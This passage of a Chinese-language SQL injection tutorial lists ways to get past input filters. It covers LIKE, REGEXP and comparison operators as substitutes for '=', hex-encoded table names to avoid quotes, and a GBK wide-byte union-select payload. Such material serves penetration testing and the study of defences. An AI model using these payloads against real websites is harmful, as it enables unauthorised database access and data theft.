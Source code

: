 不加通配符的like执行的效果和 = 一致，所以可以用来绕过。
正常加上通配符的like：

```bash
 Select * from cms_users where username like "ad%";
```

不加上通配符的like可以用来取代=：

```bash
 Select * from cms_users where username like "admin";
```

regexp:MySQL中使用 REGEXP 操作符来进行正则表达式匹配

```bash
Select * from cms_users where username REGEXP "admin";
```

使用大小于号来绕过

```bash
Select * from cms_users where userid>0 and userid<2;
```

<> 等价于 != ,所以在前面再加一个 ! 结果就是等号了

```bash
Select * from cms_users where !(username <> "admin");
```

## 10.对单引号的绕过

使用十六进制
会使用到引号的地方一般是在最后的where子句中。如下面的一条sql语句，这条语句就是一个简单的用来查选得到users表中所有字段的一条语句：

```bash
select column_name  from information_schema.tables where table_name="users"
```

这个时候如果引号被过滤了，那么上面的where子句就无法使用了。那么遇到这样的问题就要使用十六进制来处理这个问题了。
　　users的十六进制的字符串是7573657273。那么最后的sql语句就变为了：

```bash
select column_name  from information_schema.tables where table_name=0x7573657273
```

宽字节
在 mysql 中使用 GBK 编码的时候，会认为两个字符为一个汉字，一般有两种思路：

（1）%df 吃掉 \ 具体的方法是 urlencode(’) = %5c%27，我们在 %5c%27 前面添加 %df ，形成%df%5c%27 ，而 mysql 在 GBK 编码方式的时候会将两个字节当做一个汉字，%df%5c 就是一个汉字，%27 作为一个单独的 ’ 符号在外面：

```bash
id=-1%df%27union select 1,user(),3--+
```

（2）将 ’ 中的 \ 过滤掉，例如可以构造 %**%5c%5c%27 ，后面的 %5c 会被前面的 %5c 注释掉。

一般产生宽字节注入的PHP函数：
1.replace（）：过滤 ’ \ ，将 ’ 转化为 ’ ，将 \ 转为 \，将 " 转为 " 。用思路一。
